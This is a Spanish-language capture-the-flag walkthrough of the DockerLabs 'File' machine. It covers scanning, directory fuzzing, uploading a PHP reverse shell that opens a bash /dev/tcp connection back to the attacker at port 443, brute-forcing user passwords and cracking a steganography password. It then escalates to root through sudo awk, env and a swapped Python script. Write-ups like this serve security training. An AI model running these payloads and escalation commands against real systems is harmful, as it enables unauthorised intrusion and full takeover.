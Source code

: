 Hoy realizamos la máquina "File" de [DockerLabs](https://dockerlabs.es)

Autor: [Scuffito y Jul3n-dot](https://github.com/jul3n-dot)

Dificultad: Fácil

![Dockerlabs](./images/file/img/Dockerlabs.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Fri Dec  6 09:14:35 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n -oN escaneo.txt 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-12-06 09:14:36 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 65534    65534          33 Sep 12 21:50 anon.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec  6 09:14:44 2024 -- 1 IP address (1 host up) scanned in 9.22 seconds
```

Como vemos tenemos 2 puertos:

`21: vsftpd 3.0.5 (No vulnerable)`

`80: Apache httpd 2.4.41`

Viendo las opciones, pasaremos directamente a hacer fuzzing con `gobuster`:

```css
gobuster dir -u "http://172.17.0.2" -w directory-list-2.3-big.txt -x php
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/file_upload.php      (Status: 200) [Size: 468]
Progress: 732621 / 2547666 (28.76%)
===============================================================
Finished
===============================================================
```

# Intrusión

Viendo que podemos posiblemente podemos subir archivos en "file_upload.php", crearemos una shell en php, solo que con extension `phar`:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

Una vez creado, escuchamos en el puerto 443 con netcat (`sudo nc -nlvp 443`) y luego lo subimos, vamos a donde está la shell (/uploads/shell.phar) y entramos, una vez lo hagamos estaremos dentro como www-data.

# Escalada de privilegios

### www-data

Ahora para escalar, necesitaremos de un script que nos permite hacer [fuerza bruta a varios usuarios al mismo tiempo](https://github.com/Maciferna/multi-Su_Force), y usamos la wordlist de rockyou. Una vez hecho habremos obtenido la contraseña de el usuario fernando

### Fernando

Si vamos al home de fernando, veremos una foto, esta nos la pasamos a nuestra maquina e intentamos obtener una contraseña para extraer lo que tiene un su interior con `steghide`. Para esto primero debemos buscar su contraseña:

```
stegseek --crack dragon-medieval.jpeg /opt/rockyou.txt 
```

Una vez lo hagamos, nos dirá que dentro tiene un archivo llamado "pass.txt" y que la contraseña para extraerlo es "secret". Este nos deja un archivo llamado igual que la imagen pero con un .out al final, lo leemos y nos da un hash, el cual al crackearlo en [CrackStation](https://crackstation.net) nos dará la contraseña del usuario "mario".



### Mario

Siendo mario, podemos ejecutar el binario `awk` como el usuario "julen", por lo que luego de buscar en gtfobins veo que se puede escalar de la siguiente manera:

```css
sudo -u julen awk 'BEGIN {system("/bin/bash")}'
```

### Julen

Ahora si ejecutamos `sudo -l`, vemos que nuevamente podemos ejecutar algo como otro usuario, y en este caso es el binario `env` como el usuario "iker". Por lo que para escalar ejecutamos `sudo -u iker env bash`.

### Iker

Si ejecutamos `sudo -l`, veremos que podemos ejecutar un script de python como root. Este script se encuentra en la home de iker, por lo que significa que aunque el archivo pertenezca a root y no tengamos permiso de escritura, podemos borrarlo igualmente. Sabiendo esto, lo borramos y creamos otro con el mismo nombre solo que con el siguiente contenido:

```python
import os

os.system("/bin/bash")
```

Una vez todo listo, ejecutamos `sudo python3 /home/iker/geo_ip.py ` y ya seremos root.

## Root

![root](./images/file/img/root.png)

Gracias por leer :)
